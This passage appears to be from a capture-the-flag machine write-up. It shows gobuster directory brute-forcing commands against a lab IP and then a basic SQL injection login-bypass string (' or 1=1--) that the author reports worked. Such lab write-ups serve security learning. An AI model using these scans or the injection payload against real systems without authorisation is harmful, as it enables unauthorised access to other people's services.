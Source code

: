 
## Bruteforcing directories

Run gobuster on the main page.

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.185/
```

Run using the php extension

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.185/ -x php
```

Run gobuster on the login page

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.185/login -x php
```

Directory bruteforcing doesn't give aything useful.


## Finding a sql injection vulnerability


While trying to bypass the login page, I tried a standard sql injection string.

```
' or 1=1--
```

And it worked

![](Pictures/trying_sqli.png)
